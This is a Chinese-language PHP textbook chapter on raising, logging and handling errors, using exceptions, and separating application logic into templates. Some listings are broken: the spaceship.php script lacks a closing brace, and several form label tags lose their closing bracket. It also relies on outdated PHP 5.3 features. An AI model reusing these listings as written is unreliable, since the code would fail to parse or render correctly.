默认情况下，`trigger_error()`引发一个`E_USER_NOTICE`错误，它相当于`E_NOTICE`（即相对较小的问题）。你也可以引发`E_USER_WARNING`错误（更严重的问题），或`E_USER_ERROR`错误（致命错误——引发此错误会停止脚本运行）：

```php
trigger_error ( "Houston, we've had a bigger problem.", E_USER_WARNING );
trigger_error ( "Houston, we've had a huge problem.", E_USER_ERROR );
```

考虑以下计算每天销售的小部件数量的函数：

```php
<?php
function calcWidgetsPerDay( $totalWidgets, $totalDays ) {
    return ( $totalWidgets / $totalDays );
}

echo calcWidgetsPerDay ( 10, 0 );
?>
```

如果将零作为`$totalDays`参数传递，PHP引擎会生成以下错误：

```
PHP Warning: Division by zero in myscript.php on line 3
```

这条消息不太有信息量。考虑使用`trigger_error()`重写的以下版本：

```php
<?php
function calcWidgetsPerDay( $totalWidgets, $totalDays ) {
    if ( $totalDays == 0 ) {
        trigger_error ( "calcWidgetsPerDay(): The total days cannot be zero", E_USER_WARNING );
        return false;
    } else {
        return ( $totalWidgets / $totalDays );
    }
}

echo calcWidgetsPerDay ( 10, 0 );
?>
```

现在脚本会生成这条错误消息：


```
PHP Warning: calcWidgetsPerDay(): The total days cannot be zero in myscript.php on line 4
```

这使得问题的原因更加明确：calcWidgetsPerDay() 函数不能以 $totalDays 值为零来调用。脚本现在更加用户友好，也更易于调试。

*一个更原始的错误触发函数是 exit()（及其别名 die()）。调用此函数会简单地停止脚本，显示一个错误消息字符串（如果向函数提供了一个字符串）或返回一个错误代码（如果向函数提供了一个整数）。一般来说，使用 trigger_error() 更好，因为这让你能更好地控制错误的处理方式。*

## 控制错误消息的发送位置

当引发错误时，PHP 引擎通常会将错误消息记录到某个位置。你可以通过一些 PHP 配置指令来精确控制错误消息的记录位置：

- **display_errors**: 这控制错误消息是否在浏览器中显示。设置为 On 以显示错误，或设置为 Off 以防止错误显示。因为错误消息可能包含对黑客有用的敏感信息，你应该在正式网站上将 display_errors 设置为 Off。

- **log_errors**: 控制错误消息是否记录在错误日志中。设置为 On 以在错误日志中记录错误，或设置为 Off 以禁用错误日志记录。（如果将 display_errors 和 log_errors 都设置为 Off，则不会记录错误发生的任何记录）

- **error_log**: 指定用于记录错误的日志文件的完整路径。默认值通常是系统日志或 Web 服务器的错误日志。传入特殊字符串 "syslog" 可将错误消息发送到系统日志记录器（在类 UNIX 操作系统中，这通常将消息记录在 /var/log/syslog 或 /var/log/system.log 中；在 Windows 中，消息记录在事件日志中）

如果你可以访问 Web 服务器的 php.ini 文件，可以在那里设置错误日志选项——例如：

```
display_errors = Off
```

或者，你可以在应用程序中使用 ini_set() 来为该应用程序设置日志选项：

```
ini_set( "display_errors", "Off" );
```

## 记录你自己的错误消息

除了使用 trigger_error() 引发错误外，你还可以使用 error_log() 函数将错误消息记录到系统日志或单独的日志文件，或通过电子邮件发送错误消息。

与 trigger_error() 不同，调用 error_log() 不会导致错误由 PHP 错误处理程序（或你自己的自定义错误处理程序，如果你创建了一个）处理，也不能停止脚本运行。它仅将日志消息发送到某个位置。如果你想引发错误，请改用 trigger_error()（或同时使用）。

error_log() 在自定义错误处理程序函数中也很有用，如稍后所示。

要使用 error_log(), 请使用要记录的错误消息调用它：

```
error_log ( "Houston, we've had a problem." );
```

默认情况下，消息被发送到 PHP 日志记录器，它通常会将消息添加到系统日志或 Web 服务器的错误日志中（有关更多详细信息，请参阅“控制错误消息的发送位置”）。如果你想为消息指定不同的目标，请将整数作为第二个参数传递。

传递值 1 会通过电子邮件发送消息。将要发送到的电子邮件地址作为第三个参数指定。你可以选择在第四个参数中指定其他邮件标头：

```
error_log ( "Houston, we've had a problem.", 1, "joe@example.com", "Cc: bill@example.com" );
```

传递值 3 可将消息发送到自定义日志文件：

```
error_log ( "Houston, we've had a problem.\n", 3, "/home/joe/custom_errors.log" );
```

请注意，error_log() 不会自动在日志消息末尾添加换行符（\n），因此如果你希望消息出现在不同行上，需要自行添加换行符。

如果错误成功记录，error_log() 返回 true；如果无法记录错误，则返回 false。

## 让脚本处理错误

为了获得更大的灵活性，你可以创建自己的错误处理程序函数来处理脚本运行时引发的任何错误（无论是由 PHP 引擎引发还是通过调用 trigger_error() 引发）。然后你的错误处理程序可以检查错误并决定该怎么做：它可能会在文件或数据库中记录错误；向用户显示消息；尝试修复问题并继续；清理各种文件和数据库连接并退出；或者完全忽略错误。

要告诉 PHP 使用你自己的错误处理程序函数，请调用 set_error_handler()，传入函数名：

```
set_error_handler ( "myErrorHandler" );
```

> 以下错误类型不能由自定义错误处理程序处理；相反，它们将始终由 PHP 的内置错误处理程序处理：E_ERROR、E_PARSE、E_CORE_ERROR、E_CORE_WARNING、E_COMPILE_ERROR 和 E_COMPILE_WARNING。此外，如果在调用 set_error_handler() 的文件中引发大多数 E_STRICT 错误，它们将绕过自定义错误处理程序。

你可以选择让你的函数不处理某些类型的错误。为此，请将掩码作为第二个参数传递。例如，以下代码确保错误处理程序仅针对 E_WARNING 或 E_NOTICE 错误被调用（所有其他错误类型由 PHP 的错误处理程序处理）：

```
set_error_handler ( "myErrorHandler", E_WARNING | E_NOTICE );
```

你将在下一节“微调错误报告”中了解有关将掩码与错误级别一起使用的更多信息。

你的错误处理程序函数至少需要两个参数，如下所示：

| 参数 | 描述 |
|---|---|
| errno | 错误级别，为整数。这对应于适当的错误级别常量（E_ERROR、E_WARNING 等） |
| errstr | 作为字符串的错误消息 |

当 PHP 引擎调用你的错误处理程序函数时，它会将适当的值传递给这些参数。该函数可以选择有额外的三个参数：

| 参数 | 描述 |
|---|---|
| errfile | 引发错误的脚本文件的文件名，作为字符串 |
| errline | 引发错误所在的行号，作为字符串 |
| errcontext | 一个数组，包含引发错误时存在的所有变量。有助于调试 |

处理完错误后，你的错误处理程序函数应做以下三件事之一：

- 如果需要，退出脚本（例如，如果你认为错误是致命的）。你可以通过调用 exit() 或 die() 来实现，传入可选的错误消息或要返回的错误代码
- 返回 true（或什么都不返回）。如果这样做，PHP 的错误处理程序不会被调用，PHP 引擎会尝试从引发错误后的点继续执行
- 返回 false。这会导致 PHP 的错误处理程序尝试处理错误。如果你不希望你的错误处理程序处理特定错误，这很有用。取决于你的错误处理设置，这通常会导致错误被记录

以下是一个自定义错误处理程序的示例。这个处理程序 paranoidHandler() 在发生任何类型的错误时都会停止脚本的执行，无论错误多么微不足道。它还将错误详细信息记录到日志文件 /home/joe/paranoid_errors.log 中：

```
<?php
function calcWidgetsPerDay( $totalWidgets, $totalDays ) {
    if ( $totalDays == 0 ) {
        trigger_error( "calcWidgetsPerDay(): The total days cannot be zero", E_USER_WARNING );
        return false;
    } else {
        return ( $totalWidgets / $totalDays );
    }
}
function paranoidHandler( $errno, $errstr, $errfile, $errline, $errcontext ) {
    $levels = array (
        E_WARNING => "Warning",
        E_NOTICE => "Notice",
        E_USER_ERROR => "Error",
        E_USER_WARNING => "Warning",
        E_USER_NOTICE => "Notice",
        E_STRICT => "Strict warning",
        E_RECOVERABLE_ERROR => "Recoverable error",
        E_DEPRECATED => "Deprecated feature",
        E_USER_DEPRECATED => "Deprecated feature"
    );
    $message = date( "Y-m-d H:i:s - " );
    $message .= $levels[$errno] . ": $errstr in $errfile, line $errline\n\n";
    $message .= "Variables:\n";
    $message .= print_r( $errcontext, true ) . "\n\n";
    error_log( $message, 3, "/home/joe/paranoid_errors.log" );
    die( "There was a problem, so I've stopped running. Please try again." );
}
set_error_handler( "paranoidHandler" );
echo calcWidgetsPerDay ( 10, 0 );
echo "This will never be printed<br />";
?>
```

运行时，此脚本在浏览器中显示以下消息：

There was a problem, so I've stopped running. Please try again.

文件 /home/joe/paranoid_errors.log 还包含类似下面的消息：


2009-03-02 16:46:50 - 警告：calcWidgetsPerDay(): 总天数不能为
零，位于 myscript.php 第 5 行

变量：
Array
(
    [totalWidgets] => 10
    [totalDays] => 0
)

paranoidHandler() 函数会设置一个数组，将最常用的错误级别常量映射为人类可读的名称（例如 E_ERROR 和 E_PARSE 等级别被排除，因为这些始终由 PHP 错误处理程序处理）。然后它会将错误详细信息记录到 paranoid_errors.log 文件中，包括错误类型、错误消息、发生错误的文件和行号，以及出错时作用域内的变量。最后，它会调用 die() 来停止执行并向浏览器发送一条通用错误消息。（这就是为什么“这永远不会被打印”消息不会出现的原因。）

## 微调错误报告

通常，PHP 错误处理程序会报告（即记录）除 E_NOTICE 错误之外的所有错误。你可以通过调用 error_reporting() 函数来更改此默认设置，传入一个表示要记录的错误级别的掩码。

例如，若只报告 E_ERROR 错误（忽略所有其他错误），请使用以下代码：

```
error_reporting( E_ERROR );
```

若要指定多个错误级别，请使用 |（按位或）运算符将它们连接起来：

```
error_reporting( E_ERROR | E_WARNING | E_PARSE );
```

若要报告所有错误，请使用特殊常量 E_ALL：

```
error_reporting( E_ALL );
```

> E_ALL 的整数值会随 PHP 版本而变化，因为会添加更多错误级别。在 PHP 5.3 中，E_ALL 的值为 30,719。

如果要指定除特定级别或某些级别之外的所有错误报告，请将级别与 E_ALL 进行异或（XOR）运算：

```
error_reporting( E_ALL ^ E_NOTICE ^ E_USER_NOTICE );
```

若要关闭所有错误类型的错误报告，请传入值 0（请注意，致命错误仍会停止脚本运行）：

```
error_reporting( 0 );
```

由于错误报告级别存储为名为 error_reporting 的配置指令，你也可以在 php.ini 或通过 ini_set() 中设置它，并使用 ini_get() 检索其当前值：

```
error_reporting( E_ERROR );
echo ini_get( "error_reporting" ); // Displays 1
```

如果你使用 set_error_handler() 指定了自定义错误处理程序，那么无论 error_reporting 设置如何，只要发生错误，你的处理程序仍会被调用。之后是否记录错误，由你的错误处理程序决定。

## 使用异常对象处理错误

虽然 trigger_error() 和 set_error_handler() 等函数在引发和处理错误方面非常灵活，但它们也有局限性。例如，如果一段代码调用类方法且该方法中发生错误，理想情况下该方法可以直接告知调用代码发生了错误，而不必使用 trigger_error() 引发错误并经过中央错误处理程序。这样，调用代码可以采取措施修复问题，从而使应用程序更加健壮。

实现这一点的一种简单常见方法是让函数或方法返回一个特殊的错误值，例如 -1 或 false。调用代码随后可以检查返回值，如果它等于错误值，则知道出现了问题。然而，当你开始处理深度嵌套的函数或方法调用时，这会变得非常繁琐，如下面的代码所示：

```
class WarpDrive {
public function setWarpFactor( $factor ) {
if ( $factor > 1 && $factor <= 9 ) {
echo "Warp factor $factor<br />";
return true;
} else {
return false;
}
}
}

class ChiefEngineer {
public function doWarp( $factor ) {
$wd = new WarpDrive();
return $wd->setWarpFactor( $factor );
}
}

class Captain {
public function newWarpOrder( $factor ) {
$ce = new ChiefEngineer;
return $ce->doWarp( $factor );
}
}

$c = new Captain;
if ( !$c->newWarpOrder( 10 ) ) echo "She cannot go any faster!<br />";
```

如果 `WarpDrive::setWarpFactor()` 函数执行成功，则返回 `true`，否则返回 `false`（如果 warp 因子小于 1 或大于 9）。然后，该返回值需要同时通过 `ChiefEngineer::doWarp()` 方法和 `Captain::newWarpOrder()` 方法传递到调用代码，以便调用代码识别并报告错误。在复杂应用程序中，出现至少这种层级的嵌套方法调用并不罕见。

另一个问题是，仅返回 `false` 无法向调用代码说明具体出了什么问题。此外，当方法必须返回错误值时，它就无法轻松返回其他内容（因为方法和函数一次只能返回一个东西）。

幸运的是，PHP 提供了 `exceptions`，这是一种更优雅的触发和处理错误条件的方式。与返回单个错误值不同，你的方法或函数可以创建一个丰富的 `Exception` 对象，其中包含关于问题的详细信息，然后将该对象 `throw` 抛给调用代码进行处理或 `catch` 捕获。

异常的另一个优点是，如果调用代码不想捕获异常，则不必捕获；如果它忽略异常，异常会沿调用链重新抛出，直到被捕获为止。如果没有代码捕获异常，脚本会因致命错误而停止，并且异常会被记录或显示给用户（具体取决于你的 `log_errors` 和 `display_errors` 设置）。因此，通过使用异常，任何问题都可以由应用程序的另一部分自动处理，或者如果一切都失败，则报告给开发人员或用户。这使得应用程序在处理错误场景时更加灵活和健壮。

> 如果你不希望未捕获的异常引发致命错误，可以创建自己的异常处理程序来处理异常（类似于创建自己的错误处理程序）。有关详细信息，请参见 `http://www.php.net/manual/en/function.set-exception-handler.php`。

### 抛出异常

以下是在代码中发生错误时创建并抛出异常的方法：

```
throw new Exception;
```

你还可以在创建 `Exception` 对象时传递一个可选的错误消息（这通常是个好主意）：

```
throw new Exception( "Oops, something went wrong" );
```

如果你的应用程序中有许多不同的错误消息，为每个异常赋予一个数字错误代码以将其区分开来会很有帮助。要向抛出的异常添加错误代码，请在创建 `Exception` 对象时将其作为第二个参数传递：

```
throw new Exception( "Oops, something went wrong", 123 );
```

如果你没有在代码的其他位置捕获抛出的异常，最终它会冒泡到脚本的顶层，并显示类似下面的错误消息：

```
PHP Fatal error:  Uncaught exception 'Exception' with message 'Oops, something went wrong' in script.php:4 Stack trace: #0 {main} thrown in script.php on line 4
```

这表明发生了脚本自身未处理的异常，提供了错误消息，并告知你异常是在脚本的主（顶层）部分抛出的。

### 捕获异常

那么，如何在脚本中捕获异常呢？你可以使用 try ... catch 块，如下所示：

```
try {
        // Call the function or method
    } catch ( Exception $e ) {
        // Handle the exception
    }
```

try 和 catch 之间的代码会被执行。这通常包括对函数或对象方法的调用。如果这段代码导致抛出异常，则会执行 catch 之后的代码。catch 结构期望一个参数，即被抛出的 Exception 对象（本示例中的 $e）。随后如何处理异常由你决定。你可以简单地带上一条错误消息退出脚本：

```
die( "There was a problem." );
```

或者，你可以查询 Exception 对象以了解更多关于问题的信息。所有 Exception 对象都包含以下可用于获取更多信息的方法：

| 异常方法 | 方法描述 |
|---|---|
| getMessage() | 返回异常中包含的错误消息 |
| getCode() | 返回异常中包含的错误代码 |
| getFile() | 返回发生异常的脚本文件名 |
| getLine() | 返回发生异常的脚本文件中的行号 |
| getTrace() | 返回一个数组，显示导致异常的函数和/或方法调用的嵌套情况 |
| getTraceAsString() | 返回一个格式化的字符串，显示导致异常的函数和/或方法调用的嵌套情况 |

因此，例如，如果异常不太严重，你可以简单地显示异常的错误消息并照常继续：

```
try {
        // Call the function or method
    } catch ( Exception $e ) {
        echo $e->getMessage();
    }
```

如果在 try ... catch 块中没有发生异常，PHP 引擎将继续执行你的脚本，从 try ... catch 块之后的那一行开始。


## 创建你自己的异常类

除了创建标准 `Exception` 对象，你还可以扩展 `Exception` 类本身来创建自定义异常。这样你可以向异常对象添加自己的方法和属性，这有助于让你的错误报告对应用程序的用户和开发人员更加丰富和有用。此外，你还可以在 `catch` 构造中针对特定的异常类进行测试，并相应地采取行动：

```php
class DatabaseException extends Exception {
}
```

```php
class InvalidInputException extends Exception {
}
```

```php
try {
 // Call the function or method
 } catch ( DatabaseException $e ) {
 echo "There was a problem with the database.";
 } catch ( InvalidInputException $e ) {
 echo "Invalid input - check your typing and try again.";
 } catch ( Exception $e ) {
 echo "Generic error: " . $e->getMessage();
 }
```

## 穿梭宇宙

以下脚本模拟了一艘飞船在空间中进行曲线飞行。飞船携带一定量的锂晶体燃料，每次进入曲线飞行时都会消耗部分燃料。每次曲线飞行所用的燃料量等于曲线因子（即速度）。该脚本广泛使用异常来报告曲线飞行期间发生的各种问题。

将脚本保存为 `spaceship.php` 到你的文档根目录文件夹，并在 Web 浏览器中运行它。你应该能看到如图 20-2 所示的输出。

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
 "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
 <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
 <title>Warping Through Space</title>
 <link rel="stylesheet" type="text/css" href="common.css" />
 </head>
 <body>
 <h1>Warping Through Space</h1>
 
 <?php
 
 class InputException extends Exception {
 private $_invalidWarpFactor;
 
 public function __construct( $message, $code, $factor ) {
 parent::__construct( $message, $code );
 $this->_invalidWarpFactor = $factor;
 }
 public function getInvalidWarpFactor() {
     return $this->_invalidWarpFactor;
 }
 }
 class FuelException extends Exception {
     private $_remainingFuel;
 
     public function __construct( $message, $code, $remainingFuel ) {
         parent::__construct( $message, $code );
         $this->_remainingFuel = $remainingFuel;
     }
 
     public function getRemainingFuel() {
         return $this->_remainingFuel;
     }
 }
 class WarpDrive {
     static private $_dilithiumLevel = 10;
 
     public function setWarpFactor( $factor ) {
         if ( $factor < 1 ) {
             throw new InputException( "Warp factor needs to be at least 1", 1, $factor );
         } elseif ( $factor > 9 ) {
             throw new InputException( "Warp factor exceeds drive specifications", 2, $factor );
         } elseif ( WarpDrive::$_dilithiumLevel < $factor ) {
             throw new FuelException( "Insufficient fuel", 3, WarpDrive::$_dilithiumLevel );
         } else {
             WarpDrive::$_dilithiumLevel -= $factor;
             echo "<p>Now traveling at warp factor $factor</p>";
         }
     }
 }
 class ChiefEngineer {
     public function doWarp( $factor ) {
         $wd = new WarpDrive;
         $wd->setWarpFactor( $factor );
     }
 }
 class Captain {
     public function newWarpOrder( $factor ) {
         $ce = new ChiefEngineer;
 
 try {
     $ce->doWarp( $factor );
 } catch ( InputException $e ) {
     echo "<p>Captain's log: Warp factor " . $e->getInvalidWarpFactor() . "?
I must be losing my mind...</p>";
 } catch ( FuelException $e ) {
     echo "<p>Captain's log: I'm getting a fuel problem from the
warp engine. It says: '" . $e->getMessage();
     echo "'" . " We have " . $e->getRemainingFuel() . " dilithium left.
I guess we're not going anywhere.</p>";
 } catch ( Exception $e ) {
     echo "<p>Captain's log: Something else happened, I don't know what.
The message is '" . $e->getMessage() . "'.</p>";
 }
 }
 
 $c = new Captain;
 $c->newWarpOrder( 5 );
 $c->newWarpOrder( -1 );
 $c->newWarpOrder( 12 );
 $c->newWarpOrder( 4 );
 $c->newWarpOrder( 9 );
 
 ?>
 </body>
 </html>
```


图 20-2

## 工作原理

首先，该脚本创建了两个从内置 `Exception` 类派生的自定义异常类：`InputException` 和 `FuelException`。如果调用代码提供了无效的曲线因子（不在 1 到 9 的范围内），则会抛出 `InputException` 对象。`InputException` 类添加了一个 `$_invalidWarpFactor` 私有属性来存储提供的曲线因子，并扩展了 `Exception` 构造函数，以便在创建 `InputException` 对象时存储提供的曲线因子。最后，它提供了一个 `getInvalidWarpFactor()` 方法来检索提供的无效曲线因子：

```php
class InputException extends Exception {
private $_invalidWarpFactor;

public function __construct( $message, $code, $factor ) {
parent::__construct( $message, $code );
$this->_invalidWarpFactor = $factor;
}

public function getInvalidWarpFactor() {
return $this->_invalidWarpFactor;
}
}
```

`FuelException` 类用于在锂晶体燃料出现问题时抛出异常。它的工作方式与 `InputException` 类似，只不过它存储的是剩余燃料而不是曲线因子。

接下来，该脚本创建了一个 `WarpDrive` 类。这是脚本中最基本的类，用于控制曲线引擎。它将剩余燃料存储在一个名为 `$_dilithiumLevel` 的私有静态属性中。通过将属性设为静态，无论创建多少个 `WarpDrive` 对象，它都会在脚本的整个生命周期中保留其值。

`WarpDrive` 只包含一个方法 `setWarpFactor()`，它接受一个曲线因子，并尝试以该速度驾驶飞船。如果因子超出范围，则会抛出一个 `InputException` 对象。请求的曲线因子会存储在 `InputException` 对象中。如果燃料不足——也就是说，剩余燃料单位数少于请求的曲线因子——该方法会抛出一个 `FuelException` 对象，并将剩余燃料存储在对象中。如果一切正常，该方法会显示一条消息并相应地减少燃料：

```php
class WarpDrive {
static private $_dilithiumLevel = 10;

public function setWarpFactor( $factor ) {
if ( $factor < 1 ) {
throw new InputException( "Warp factor needs to be at least 1", 1, $factor );
} elseif ( $factor > 9 ) {
    throw new InputException( "Warp factor exceeds drive specifications", 2, $factor );
} elseif ( WarpDrive::$_dilithiumLevel < $factor ) {
    throw new FuelException( "Insufficient fuel", 3, WarpDrive::$_dilithiumLevel );
} else {
    WarpDrive::$_dilithiumLevel -= $factor;
    echo "<p>Now traveling at warp factor $factor</p>";
}
}
}
```

为了控制曲线引擎，该脚本创建了一个 `ChiefEngineer` 类。这个类包含一个名为 `doWarp()` 的单一方法，它期望一个曲线因子。然后它创建一个新的 `WarpDrive` 对象，并尝试设置正确的速度。

在这个示例场景中，`ChiefEngineer` 有点像个"唯命是从的人"。他只是接收他的指令——所需的曲线因子——并通过其 `setWarpFactor()` 方法将其直接传递给一个新的 `WarpDrive` 对象。他不会对请求的速度进行任何检查，也不会尝试捕获由 `WarpDrive` 对象可能抛出的任何异常：

```php
class ChiefEngineer {
public function doWarp( $factor ) {
$wd = new WarpDrive;
$wd->setWarpFactor( $factor );
}
}
```

脚本创建的最后一个类是 `Captain`。这个类包含一个名为 `newWarpOrder()` 的单一方法，它期望一个曲线因子。然后该方法创建一个新的 `ChiefEngineer` 对象，并通过其 `doWarp()` 方法将命令传递给该对象。

与 `ChiefEngineer` 类不同，`Captain` 类的 `newWarpOrder()` 方法使用 `try ... catch` 块来检查曲线指令的任何问题。因为异常会沿调用链向上冒泡，所以由 `WarpDrive` 对象引发的任何异常都会在这里被捕获。`try` 块调用 `doWarp()` 方法，而多个 `catch` 块处理可能抛出的不同类别的异常：

```php
class Captain {
public function newWarpOrder( $factor ) {
$ce = new ChiefEngineer;

try {
$ce->doWarp( $factor );
} catch ( InputException $e ) {
echo "<p>Captain's log: Warp factor " . $e->getInvalidWarpFactor()
. "? I must be losing my mind...</p>";
} catch ( FuelException $e ) {
```


```php
echo "<p>Captain's log: I'm getting a fuel problem from the warp engine.
It says: '" . $e->getMessage();
echo "'. We have " . $e->getRemainingFuel() . " dilithium left. I guess
we're not going anywhere.</p>";
} catch (Exception $e) {
echo "<p>Captain's log: Something else happened, I don't know what. The
message is '" . $e->getMessage() . "'.</p>";
}
}
}
```

如果方法捕获了 `InputException`，它会显示一条消息，其中包括通过调用 `InputException::getInvalidWarpFactor()` 请求的曲线因子。同样，如果捕获了 `FuelException`，该方法会显示一条不同的消息，使用 `FuelException::getMessage()` 检索确切消息，并使用 `FuelException::getRemainingFuel()` 显示剩余燃料。最后，该方法会捕获可能抛出的任何其他潜在 `Exception` 对象，并显示一条通用错误消息。除了可能创建的任何自定义 `Exception` 对象之外，捕获通用 `Exception` 对象始终是个好主意。

最后，脚本创建一个新的 `Captain` 对象，并使用其 `newWarpOrder()` 方法设置各种曲线速度。你可以从图 20-2 中看到，随着脚本的推进，会引发并显示各种异常。

## 将应用程序逻辑与表示逻辑分离

当你刚开始编写 PHP 脚本时，可能会发现自然而然地想要将 PHP 代码（应用程序逻辑）和 HTML 标记（表示逻辑）混合在同一脚本文件或页面中。确实，本书中的大多数示例都遵循这种格式，因为解释集中在一个位置的代码更容易。

虽然这种方法对于小脚本没问题，但当你开始构建更大的应用程序时，事情就会变得混乱。你会发现：

- 你的代码逻辑变得难以跟踪，因为代码与 HTML 片段混在一起
- 你最终会在多个页面中编写相同或相似的代码片段，正如你在“编写模块化代码”中看到的那样，这会浪费精力并使代码维护变得困难
- 更改应用程序前端变得棘手——例如，当重新设计网站、将网站从 HTML 转换为 XHTML、将网站翻译成另一种语言或语言环境，或制作网站的移动版本时——因为所有标记都与 PHP 代码片段交错在一起
- 出于同样的原因，Web 设计师很难修改应用程序中页面的外观，因为他们不熟悉 PHP 代码
- 由于模板设计师可以访问你的 PHP 代码，他们可能会无意中（或故意）修改你的应用程序代码，为你的应用程序创造各种潜在的安全和稳定性问题
- 对同时包含表示逻辑的应用程序逻辑进行单元测试是棘手的。（有关单元测试的更多信息，请参见下一节。）测试纯应用程序代码要容易得多

更好的方法是将所有应用程序代码与表示代码分开。有多种方法可以做到这一点，但一种常见的技术是将所有标记保存在单独的模板文件中。然后，你的应用程序代码可以专注于应用程序的业务逻辑，并在每次想要向用户显示输出时包含一个模板文件。

## 分离应用程序和表示代码

为了说明这种技术，重写第 9 章中的 Widget Club 会员注册表单脚本 `registration.php`，使标记与应用程序逻辑分开。首先，在文档根文件夹中创建一个 `templates` 文件夹。这用于存放模板文件——即表示逻辑。接下来，创建可包含在每个页面中的全局页面页眉和页脚模板。在 `templates` 文件夹中创建以下两个文件：

### page_header.php：

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title><?php echo $results["pageTitle"] ?></title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
.error { background: #d33; color: white; padding: 0.2em; }
</style>
</head>
<body>
```

### page_footer.php：

```php
</body>
</html>
```

现在你可以创建显示注册表单和感谢页面的模板了。首先是注册表单 `registration_form.php`：

```php
<?php include "page_header.php" ?>

<h1>Membership Form</h1>

<?php if ( $results["missingFields"] ) { ?>
<p class="error">There were some problems with the form you submitted.
Please complete the fields highlighted below and click Send Details to resend
the form.</p>
<?php } else { ?>
<p>Thanks for choosing to join The Widget Club. To register,
please fill in your details below and click Send Details. Fields
marked with an asterisk (*) are required.</p>
<?php } ?>
<form action="<?php echo $results["scriptUrl"]?>" method="post">
<div style="width: 30em;">
<label for="firstName"<?php echo $results["firstNameAttrs"] ?>First name *</label>
<input type="text" name="firstName" id="firstName" value="<?php
echo $results["firstNameValue"] ?>" />
<label for="lastName"<?php echo $results["lastNameAttrs"] ?>Last name *</label>
<input type="text" name="lastName" id="lastName" value="<?php
echo $results["lastNameValue"] ?>" />
<label for="password1"<?php if ( $results["missingFields"] )
echo ' class="error"' ?>Choose a password </label>
<input type="password" name="password1" id="password1" value="" />
<label for="password2"<?php if ( $results["missingFields"] )
echo ' class="error"' ?>Retype password </label>
<input type="password" name="password2" id="password2" value="" />
<label><?php echo $results["genderAttrs"] ?>Your gender: *</label>
<label for="genderMale">Male</label>
<input type="radio" name="gender" id="genderMale" value="M"<?php
echo $results["genderMChecked"] ?> />
<label for="genderFemale">Female</label>
<input type="radio" name="gender" id="genderFemale" value="F"<?php
echo $results["genderFChecked"] ?> />
<label for="favoriteWidget">What's your favorite widget? *</label>
<select name="favoriteWidget" id="favoriteWidget" size="1">
<option value="superWidget"<?php echo $results
["favoriteWidgetOptions"]["superWidget"] ?>>The SuperWidget</option>
<option value="megaWidget"<?php echo $results
["favoriteWidgetOptions"]["megaWidget"] ?>>The MegaWidget</option>
<option value="wonderWidget"<?php echo $results
["favoriteWidgetOptions"]["wonderWidget"] ?>>The WonderWidget</option>
</select>
<label for="newsletter">Do you want to receive our newsletter?</label>
<input type="checkbox" name="newsletter" id="newsletter" value="yes"
<?php echo $results["newsletterChecked"] ?> />
<label for="comments">Any comments?</label>
<textarea name="comments" id="comments" rows="4" cols="50"><?php
echo $results["commentsValue"] ?></textarea>
<div style="clear: both;">
<input type="submit" name="submitButton" id="submitButton" value="Send Details" />
<input type="reset" name="resetButton" id="resetButton" value="Reset Form" style="margin-right: 20px;" />
</div>
</div>
</form>
<?php include "page_footer.php" ?>
```

现在创建感谢页面 `thanks.php`：

```php
<?php include "page_header.php" ?>
<h1>Thank You</h1>
<p>Thank you, your application has been received.</p>
<?php include "page_footer.php" ?>
```

将 `registration_form.php` 和 `thanks.php` 都保存在 `templates` 文件夹中。

现在你已经创建了表示代码，是时候创建应用程序代码了。将以下代码另存为文档根文件夹中的 `registration.php`：

```php
<?php
if ( isset( $_POST["submitButton"] ) ) {
 processForm();
} else {
 displayForm( array() );
}

function validateField( $fieldName, $missingFields ) {
 if ( in_array( $fieldName, $missingFields ) ) {
 return ' class="error"';
 }
}

function setValue( $fieldName ) {
 if ( isset( $_POST[$fieldName] ) ) {
 return htmlspecialchars( $_POST[$fieldName] );
 }
}

function setChecked( $fieldName, $fieldValue ) {
 if ( isset( $_POST[$fieldName] ) and $_POST[$fieldName] == $fieldValue ) {
 return ' checked="checked"';
 }
}

function setSelected( $fieldName, $fieldValue ) {
 if ( isset( $_POST[$fieldName] ) and $_POST[$fieldName] == $fieldValue ) {
 return ' selected="selected"';
 }
}
```


```php
function processForm() {
    $requiredFields = array( "firstName", "lastName", "password1",
        "password2", "gender" );
    $missingFields = array();

    foreach ( $requiredFields as $requiredField ) {
        if ( !isset( $_POST[$requiredField] ) or !$_POST[$requiredField] ) {
            $missingFields[] = $requiredField;
        }
    }

    if ( $missingFields ) {
        displayForm( $missingFields );
    } else {
        displayThanks();
    }
}

function displayForm( $missingFields ) {
    $results = array (
        "pageTitle" => "Membership Form",
        "scriptUrl" => "registration.php",
        "missingFields" => $missingFields,
        "firstNameAttrs" => validateField( "firstName", $missingFields ),
        "firstNameValue" => setValue( "firstName" ),
        "lastNameAttrs" => validateField( "lastName", $missingFields ),
        "lastNameValue" => setValue( "lastName" ),
        "genderAttrs" => validateField( "gender", $missingFields ),
        "genderMChecked" => setChecked( "gender", "M" ),
        "genderFChecked" => setChecked( "gender", "F" ),
        "favoriteWidgetOptions" => array(
            "superWidget" => setSelected( "favoriteWidget", "superWidget" ),
            "megaWidget" => setSelected( "favoriteWidget", "megaWidget" ),
            "wonderWidget" => setSelected( "favoriteWidget", "wonderWidget" ),
        ),
        "newsletterChecked" => setChecked( "newsletter", "yes" ),
        "commentsValue" => setValue( "comments" )
    );

    require( "templates/registration_form.php" );
}

function displayThanks() {
    $results = array (
        "pageTitle" => "Thank You"
    );

    require( "templates/thanks.php" );
}
?>
```

在 Web 浏览器中打开 registration.php 的 URL 来运行该脚本。你应该能看到注册表单出现。尝试填写几个字段并点击“发送详细信息”。你会发现该脚本的行为与第 9 章中的等效脚本非常相似。

## 工作原理

从功能上讲，这个应用程序与第 9 章中的 `registration.php` 几乎一样。主要区别在于，表示代码已与应用程序代码分离，并存储在 `templates` 文件夹中的单独模板文件里。

查看 `registration.php` 脚本。与第 9 章的脚本不同，`displayForm()` 和 `displayThanks()` 函数不再包含嵌入式 HTML。相反，它们使用 `require()` 来包含 `templates` 文件夹中的相关页面模板：

```php
function displayForm( $missingFields ) {
$results = array (
	"pageTitle" => "Membership Form",
	"scriptUrl" => "registration.php",
	"missingFields" => $missingFields,
	"firstNameAttrs" => validateField( "firstName", $missingFields ),
